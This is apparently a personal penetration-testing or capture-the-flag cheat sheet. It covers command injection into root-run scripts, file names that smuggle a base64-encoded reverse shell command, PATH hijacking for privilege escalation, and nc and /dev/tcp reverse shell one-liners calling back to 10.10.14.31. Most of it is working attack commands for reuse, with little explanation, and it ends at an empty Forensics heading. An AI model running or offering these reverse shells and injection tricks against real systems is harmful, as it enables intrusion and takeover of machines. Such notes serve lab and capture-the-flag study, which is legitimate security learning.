 ## Root input

Whenever there's an input on a bash script, we can append and ` bash` and in most cases it will execute the command

https://seclists.org/fulldisclosure/2019/Apr/24

# Priv escalation


Remember to check if there are any bad characters or if the box has all the things needed for the reverse shell, for example: `sh, bash, python, python3, etc`
## Creating files with special characters.

```bash
echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.31/4445 0>&1"' | base64 
touch -- 'echo -n "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMS80NDQ1IDA+JjEi" | base64 -d | bash'
```

This will create a file call

```bash
echo -n "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMS80NDQ1IDA+JjEi" | base64 -d | bash
```

## Execute code with no absolute path

```bash

cd /tmp
export PATH=/tmp;$PATH
echo $PATH
```
Now create the binary that the code was executing with no absolute path
chmod +x ourbinary

And when we execute the code, we should get the bash

## Python imports

Always check when there's a library that we can access

## Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f

bash -c 'bash -i >& /dev/tcp/10.10.14.31/4444 0>&1'
```


## Forensics

